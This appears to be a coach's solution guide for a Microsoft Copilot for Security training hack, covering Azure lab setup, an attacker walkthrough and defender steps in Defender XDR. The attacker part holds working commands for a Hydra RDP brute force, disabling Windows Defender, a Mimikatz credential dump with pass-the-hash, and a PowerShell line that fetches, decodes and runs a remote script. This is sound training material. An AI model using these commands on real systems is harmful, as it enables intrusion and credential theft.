

# Hacking Game on Copilot for Security Coach

## Setup instructions

We encourage participants of the upcomingthis CoHack to utilize their own subscription or Bring Your Own Subscription (BYOS) to ensure they can fully engage with and effectively tackle the challenges presented. As of April 2024, we would like to inform you that demo environments are not available for this event. Additionally, Copilot for Security is not designed for use by customers using US government clouds. We appreciate your understanding and are here to support you throughout the experience. For cost details plese see: https://azure.microsoft.com/en-us/pricing/details/microsoft-copilot-for-security.

1. Download files from the Setup folder

2. Start Azure CloudShell

3. Upload files downloaded from Setup folder to CloudShell

4. If you have many subscriptions, set the subscription where you are going to deploy the environment. For this, you can use the cmd "AZ-SetContext"
    
    ```powershell
    Set-AzContext -SubscriptionId "79c2a240-1a7f-482f-a315-xxxxxxxxx"
    ```

    >**Warning**: **You have to be sure that the Auto-provisioning of Defender for Server is not enabled on your subscription**

5. Run the script deploy.ps1
  
   >**Note**: Don't worry about Warning messages

6. Once the deployment is done, share with attendees information about hack-vm that you get on the output section:
    - IPAddress
    - Login
    - Password 

# Solution For Challenge 1

## Creating Sentinel Incident Data As An Attacker

1. Connect to the hack-vm using RDP. Your coach will provide you with the Public IP address and credentials

2. Use a tool from the toolbox to discover the private IP address of the workstation-vm
    
    a. Download and install Nmap from "https://nmap.org/download.html"
    
    b. Run Nmap to scan the local network of hack-vm 10.0.0.0/24
    
    c. In the result you can see that the port rdp 3389 is open on the vm 10.0.0.100
    
    
 
3. Use a tool from the toolbox to find the login and password that will allow you to connect to the workstation-vm using RDP

    a. Download Hydra application from https://github.com/maaaaz/thc-hydra-windows

    b. Download username.txt and password.txt files 

    c. Using Hydra application run a brute force attack on rdp port of the vm 10.0.0.100      
  
      ```powershell
    .\hydra.exe -t 4 -V -f -L .\username.txt -P .\password.txt rdp://10.0.0.100
    ```
    
    d. After some attempts, the application will stop and you can see, the login and the password that have worked
    
    - Login: johnson
    
    - Password: P@ssw0rd1984
    
    
    
4. Connect to the workstation-vm using RDP and the login and password found in step 3

5. Discover the IP address of the domain controller

    ```cmd
      nslookup
      > set type=all
      > _ldap._tcp.dc._msdcs.contoso.com
    ```
    
     
    
    >**Note**: You can help attendees with this link https://support.avigilon.com/s/article/Windows-How-to-Get-the-IP-Port-Used-and-IP-Addresses-of-Domain-Controllers-AD-Servers?language=en_US

6. Use a tool from the toolbox, (a) to find the login and password hash of the Domain Admin then (b) to connect to the domain controller using RDP

    a. Disable "Real-time Protection", "Cloud-delivered protection" and "Automatic sample submission" in Windows Security
    
    
    
    b. Download mimikatz application from https://github.com/ParrotSec/mimikatz
    
    c. Run Mimikatz, then run the following commands:
    
    ```powershell
   .\mimikatz.exe
    mimikatz # privilege::debug
    mimikatz # sekurlsa::logonpasswords
    ```
              
    d. Find the password hash of the domain Admin "dcadmin"
    
    
    
    e. Run this command in Mimikatz to connect to Domain controller using RDP
    
    ```powershell
    sekurlsa::pth /user:dcadmin /domain:contoso /ntlm:95771f22bc8fe09f0cb74443495bb587 /run:"mstsc.exe /restrictedadmin"
    ```
    
    f. Introduce the IP address of the domain controller "10.0.1.250" in Computer parameter on MSTC application 
    
    

>**Note**: Don't modify the "user name" parameter

7. OPTIONAL: Simulated Attack for more incident data

   a. Open A-Simulation.txt found in this repository or in the "resources" attendee repository

   b. Copy the entire content of the TXT file

   c. Open a PowerShell as Administrator or Terminal as Administrator

   d. Run the attack simulation by pasting the following in the window:

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; $xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection'); $base64String = (Invoke-WebRequest -URI "https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt" -UseBasicParsing).Content; Try{ $contentBytes =[System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) }; $i = 0; $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i]; $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

# Solution For Challenge 2

## Unified Security Operations Platform As A Defender

6. Connecting Sentinel into Defender XDR (Preview)

    a. Microsoft Sentinel is now available as part of the public preview for the Unified Security operations platform in the Microsoft Defender XDR portal. Refer to this documentation https://learn.microsoft.com/en-us/azure/sentinel/microsoft-sentinel-defender-portal on how to connect Microsoft Sentinel to Microsoft Defender XDR

    

    b. Go to https://security.microsoft.com (Defender XDR portal) on the left select pane: Investigation & Response - Incidents & Alerts - Incidents

    c. Validate incident data created from previous sections are showing up

## Enabling Copilot for Security (CFS) For Help Remediations As A Defender

**Minimum Requirements**

- **Azure Subscription**: You need to have an Azure subscription to purchase security compute units
    
- **Security Compute Units (SCUs)**: These are the required units of resources needed for dependable and consistent performance of Microsoft Copilot for Security1. You can provision SCUs and increase or decrease them at any time

- **Capacity:** This is an Azure resource that contains SCUs. You can manage capacity by increasing or decreasing provisioned SCUs within the Azure portal or the Copilot for Security portal

For more details see: https://learn.microsoft.com/en-us/copilot/security/get-started-security-copilot

7. Implementation of Copilot for Security Steps without the Azure Portal

    a. Read Learn documentation https://learn.microsoft.com/en-us/training/modules/security-copilot-getting-started/6-describe-how-to-enable-security-copilot for general implementation information

    b. Go to https://securitycopilot.microsoft.com

    c. When "Create a Security capacity" window pops-up select the following

    

    d. Azure Subscription - select your subscription. For example "Azure Pass - Sponsorship"

    e. Resource group - select any RG can be used or select "Create a new one"

    f. Capacity name - type any unique name here

    g. Prompt evaluation location - use any of the available locations

    h. Capacity region - this field should be populated from the previous option

    i. Security compute units - 1 SCU seem to be enough (this can be changed in the Azure Portal). Also it this seems to be $4/hour

    >**Note**: In April 2024, Copilot for Security (CFS) and Security Compute Units can consume a sizeable amount of Azure Credits. Please check your Azure Cost Management for more details

    j. Acknowledge Terms and Conditions checkbox

    k. Select "Create"

    l. Once complete Copilot for Security is live with the "promptbar" at the bottom of the screen

    

## Validation That All Services Are Working

8. Validation of Copilot for Security (CFS) embedded experience in Defender XDR

    a. Go to https://security.microsoft.com (Defender XDR portal) on the left select pane: Investigation & Response - Incidents & Alerts - Incidents

    b. Select an incident and Copilot for Security embedded experience shows up

   

## Copilot for Security (CFS) Incident Summary

9. Checking that all Copilot for Security (CFS) plugins are enabled

    a. In Copilot for Security portal (not the embedded experience), select the prompt bar
    
    b. Select the four box icon inside the prompt bar to bring up the plugin window

    

    c. Toggle on as many plugins as possible to enrich the CFS session

    

    d. Close the plugin window by accepting the changes

10. Prompting Copilot for Security (CFS) for the incident summary

    

    a. In Copilot for Security (CFS) portal (not the embedded experience), select the prompt bar

    b. Select the two star icon (to the left next to the plugin icon) in the prompt bar to bring up the Promptbook library

    >**Note**: This can be done differently by typing the prompt "Summarize Defender incident [incident number]"
    
    

    c. Select a prompt with a similar name like "Microsoft 365 Defender incident investigation"

    d. Under the "Incident ID" field, type in the incident that previously created

    e. Select "Run" at the top for Copilot for Security (CFS) to provide in depth summary

    
   
## Clean up

1. Run the script delete.ps1
   
3. Clean up Copilot for Security (CFS)

   a. Log on to https://portal.azure.com
   
   b. Navigate to the Copilot of Security Resource group
   
   c. Delete the resource group to stop Azure Credit charges
